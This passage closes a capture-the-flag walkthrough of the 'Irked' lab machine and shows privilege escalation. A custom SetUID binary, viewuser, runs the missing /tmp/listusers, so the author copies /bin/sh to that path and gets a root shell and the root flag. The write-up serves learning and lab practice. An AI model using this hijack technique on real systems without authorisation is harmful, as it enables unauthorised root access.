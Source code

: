 I tried `sudo -l` to check did I have anything I could run as root but as you can see it didn’t exist.

Then I check for files/binaries that  have any special permissions and this seems to have thrown up a binary that isn’t standard. Oh the questions, let me check.

What is the filename for the SetUID binary that is custom to Irked?

Look I have a binary called `viewuser` and it answers the question but not the next.

What is the full path of the file that `viewuser` fails to load when it runs?

I need to run it to see:

```bash
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-01-06 01:01 (:0)
djmardov pts/1        2024-01-06 01:38 (10.10.14.8)
sh: 1: /tmp/listusers: not found
```

It tries to run `/tmp/listusers` and this is my answer and maybe my way to root, let me try and copy the `sh` binary into the non-existent file and see can I get a root shell.

```bash
djmardov@irked:~$ cp /bin/sh /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-01-06 01:01 (:0)
djmardov pts/1        2024-01-06 01:38 (10.10.14.8)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
# cat /root/root.txt
b5f8c139b11ca3ad136dfef4e255810c
```

Yeah (: I get a winner.

There you have it root was quite simple following some basic enumeration steps and hacks.

I hope you enjoy the read and take something home from it.
